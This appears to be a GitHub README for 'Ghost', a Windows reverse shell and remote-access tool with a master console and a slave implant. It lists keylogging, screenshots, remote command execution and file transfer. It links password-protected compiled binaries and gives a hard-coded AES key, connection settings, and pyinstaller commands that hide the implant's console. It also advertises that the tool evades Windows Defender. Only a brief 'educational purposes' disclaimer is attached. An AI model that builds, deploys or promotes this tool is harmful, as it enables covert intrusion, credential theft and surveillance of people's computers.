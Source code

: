 # Ghost
Reverse shell and management console for Windows. Communication between the reverse shell and the management console is AES encrypted. Reverse shell and management console support tcp and udp protocols. 

<dl>
  <dt>Some of its features are
  <dd>
  <dd>-Sends commands to cmd and powershell,
  <dd>-Creates or extracts zip files
  <dd>-Downloads files from the Internet,
  <dd>-Supports file upload and download,
  <dd>-Creates keylogger program,
  <dd>-Takes a screenshot
  <dd>-Communication between server and client is AES encrypted.
</dl>

The Compiled Version of the Program Can be Downloaded from the Links Below.
---
<dl>
  <dt> 1) Compiled without using the "--noconsole" command 
  <dd>
  <dd> ghost_v4_showconsole.rar --> zip password: "ghost_v4"
  <dd> Link = https://drive.google.com/file/d/1d_8ghw7vlULQ26KI1hbJaTmT_d3QQY8W/view?usp=sharing
</dl>

<dl>
  <dt> 2) Compiled using the "--noconsole" command
  <dd> 
  <dd> ghost_v4_noconsole.rar --> zip password: "ghost_v4"
  <dd> Link = https://drive.google.com/file/d/1Oxeva5fwwTeRRJLv_7o12Lby4AXeFnEq/view?usp=sharing
</dl>



Requirements
---
Required libraries:  pycryptodome , requests, pyautogui, pyinstaller

```
pip install pycryptodome
pip install  requests
pip install pyautogui
pip install pyinstaller
```


"pyinstaller" will be used to make the code one piece executable


Settings
---

**(1) master.py**

![master](https://user-images.githubusercontent.com/71177413/162610379-f8baa1f8-050a-4923-90fe-287267a8e994.JPG)

```
    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "0.0.0.0"                                 # This value in "master.py" should not be changed in order for "slave.py" to be connected.
    SOCKET_PORT     = 9292                                      # "slave.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET (changeable; example utf-8, latin1 etc.)
    SYSTEM_DEFAULTTIMEOUT = 0                                   # No timeout. It is recommended to set the value to "0" for master.py.
``` 
    
   
  **(2) slave.py**
   
   ![slave](https://user-images.githubusercontent.com/71177413/162610823-5da57505-edf6-44c1-b7a9-74a3062beab6.JPG)
   
```
    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "127.0.0.1"                               # The IP to which "slave.py" will be connected
    SOCKET_PORT     = 9292                                      # "master.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET (changeable; example utf-8, latin1 etc.)
    SYSTEM_DEFAULTTIMEOUT = 300                                 # 5 minutes; It is recommended to be non-zero for "UDP". When the connection is lost or an error occurs, "slave.py" tries to connect again after this period. At the same time, if it does not receive a command from "master.py" within this time, it tries to connect again. Therefore, setting a very low value is also not appropriate.
```

<dl>
  <dt>
  <dt> Except for encryption, these values can be changed with initial parameters if desired.
  <dd>
  <dd> master.exe -h      ==> Shows help parameters.
  <dd> slave -h           ==> Not shows help parameters because of the parameter ("--noconsole") used while compiling
</dl>
  
<dl>
  <dt>
  <dt> Example:
  <dd>
  <dd> master -udp -c:cp857  -t:00 8080             ==> (8080 port)
  <dd> master -tcp -c:utf-8  -t:600 9393            ==> (9393 port)
  <dd> master 7272                                  ==> (7272 port)
  <dd> slave  -udp -c:cp857  -t:600 1.1.1.1:8080    ==> (1.1.1.1 ip - 8080 port)
  <dd> slave  -tcp -c:utf-8  -t:00  1.1.1.1:9393    ==> (1.1.1.1 ip - 9393 port)
  <dd> slave 3.3.3.3:7272                           ==> (3.3.3.3 ip - 7272 port)
</dl>

![1](https://user-images.githubusercontent.com/71177413/162611487-baabc2aa-2c37-4a9b-b178-74dbb8d08d75.JPG)

![2](https://user-images.githubusercontent.com/71177413/162611490-e24ad077-5b4d-4a33-8ac9-c72f24d91829.JPG)


Compilation
---
[Language : Python 3.8.5]

(show console for slave.py)

```
pyinstaller --onefile --icon=master.ico master.py

pyinstaller --onefile --icon=slave.ico slave.py
```
or (hide console for slave.py)

```
pyinstaller --onefile --icon=master.ico master.py

pyinstaller --onefile --noconsole --icon=slave.ico slave.py
```

Commands for Master.py
---

`commands      # Shows commands very briefly.`

![3](https://user-images.githubusercontent.com/71177413/162611768-9e3e7ad6-298a-4c7d-b907-320f2696003a.JPG)


`help          # Shows commands in detail.`

![4](https://user-images.githubusercontent.com/71177413/162611775-ed01e4f7-4dfb-4aa0-a6cb-9b7877528e1f.JPG)


Notes
---
First, master.py should be run, then slave.py should be run. Otherwise, slave.py will wait for the timeout and try to connect again.



Some Images of the Working of the Program
---

[1] 

![5](https://user-images.githubusercontent.com/71177413/162612140-749b42ed-b450-4a60-a43d-00e3f2eea801.JPG)


[2]

![6](https://user-images.githubusercontent.com/71177413/162612197-5cf920c1-8d3e-4647-99b5-a45b408cf275.JPG)


[3]

![11](https://user-images.githubusercontent.com/71177413/162612212-a7019220-d3db-4024-9d3a-f548e902b32b.JPG)


[4]

![7](https://user-images.githubusercontent.com/71177413/162612297-5da94b20-8b7f-40ec-92e4-1733e6a58059.JPG)


[5]

![8](https://user-images.githubusercontent.com/71177413/162612229-110697a1-b587-4bc2-ada1-1742538f4fb1.JPG)


[6]

![10](https://user-images.githubusercontent.com/71177413/162612315-b7bf2aa0-f349-4e85-b22c-aab987ca43d1.JPG)


[7]

![13](https://user-images.githubusercontent.com/71177413/162613543-95a90c3f-f4c6-434b-b05e-a91769ee9096.JPG)


[8]

![14](https://user-images.githubusercontent.com/71177413/162615941-394026f7-26a3-467c-bacd-20665c7ebb1c.JPG)


Windows Defender
---
As of 10/04/2022, it is not caught by the Windows Defender program. Over time this will change.


Legal Warning
---
Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.

